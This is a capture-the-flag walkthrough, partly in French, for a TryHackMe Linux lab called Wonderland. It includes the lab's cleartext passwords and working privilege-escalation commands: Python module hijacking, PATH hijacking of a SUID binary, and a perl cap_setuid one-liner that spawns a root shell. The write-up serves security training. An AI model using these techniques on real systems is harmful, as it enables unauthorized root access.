 #TryHackMe #linux 
# Scan Nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8eeefb96cead70dd05a93b0db071b863 (RSA)
|   256 7a927944164f204350a9a847e2c2be84 (ECDSA)
|_  256 000b8044e63d4b6947922c55147e2ac9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.


# Gobuster scan
/img                  (Status: 301) [Size: 0] [--> img/]

# Download rabbit img
┌──(root㉿kali)-[/home/kali/Desktop/THM/wonderland]
└─# wget http://thm/img/white_rabbit_1.jpg

# extract hide info on image
┌──(root㉿kali)-[/home/kali/Desktop/THM/wonderland]
└─# steghide extract -sf white_rabbit_1.jpg
Enter passphrase: 
wrote extracted data to "hint.txt".

┌──(root㉿kali)-[/home/kali/Desktop/THM/wonderland]
└─# cat hint.txt                                     
follow the r a b b i t 

# view-source:http://thm/r/a/b/b/i/t/
alice:HowDothTheLittleCrocodileImproveHisShiningTail

# Foothold by ssh
## Find
### alice@wonderland:~$ ls -l
total 8
-rw------- 1 root root   66 May 25  2020 root.txt
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py

### alice@wonderland:~$ sudo -l
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

# Exploit for PrivEsc
## Usurpation du module random dans le programme "walrus_and_the_carpenter.py"
alice@wonderland:~$ touch random.py #ExploitNotAbsolutPath
alice@wonderland:~$ nano random.py
	import os
	os.system("/bin/bash")

## Exécution du programme
alice@wonderland:~$ sudo -u  rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

## shell de rabbit obtenu

## Find
### rabbit@wonderland:/home/rabbit$ ls -la
total 44
drwxr-x--- 2 rabbit rabbit  4096 Mar 13 22:41 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty (**Peut être exécuter avec les privilèges root par tous**)

### rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Tue, 14 Mar 2023 00:03:14 +0000
Ask very nicely, and I will give you some tea while you wait for him

### rabbit@wonderland:/home/rabbit$ cat teaParty
[...]
/bin/echo -n 'Probably by ' && date --date='next hour' -R 
[...]

## Usurpation du  chemin d'accès de la commande date

### rabbit@wonderland:/home/rabbit$ touch date #ExploitNotAbsolutPath 
### rabbit@wonderland:/home/rabbit$ nano date
#!/bin/bash
/bin/bash

### rabbit@wonderland:/home/rabbit$ chmod 777 date

### rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH #ExploitNotAbsolutPath

### rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

### rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by 
### hatter@wonderland:/home/rabbit$


## shell de hatter obtenu

## Find
### hatter@wonderland:/home/hatter$ ls -la
total 28
drwxr-x--- 3 hatter hatter 4096 May 25  2020 .
drwxr-xr-x 6 root   root   4096 May 25  2020 ..
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 hatter hatter  220 May 25  2020 .bash_logout
-rw-r--r-- 1 hatter hatter 3771 May 25  2020 .bashrc
drwxrwxr-x 3 hatter hatter 4096 May 25  2020 .local
-rw-r--r-- 1 hatter hatter  807 May 25  2020 .profile
-rw------- 1 hatter hatter   29 May 25  2020 password.txt

### hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?

## Connexion ssh à hatter

## Find
### ***Vérification des fichiers qui peuvent s'exécution avec privilège root***

### hatter@wonderland:~$ getcap -r / 2>/dev/null #ExploitCapability
**/usr/bin/perl5.26.1 = cap_setuid+ep**
/usr/bin/mtr-packet = cap_net_raw+ep
**/usr/bin/perl = cap_setuid+ep**

## Exploitation de /usr/bin/perl

### hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";' (*commande trouvé sur GTFOBins*)

# Shell root obtenu
	# id
	uid=0(root) gid=1003(hatter) groups=1003(hatter)
## élevation de l'interface tty
	# python3 -c 'import pty; pty.spawn("/bin/bash")'                                    
	root@wonderland:~#

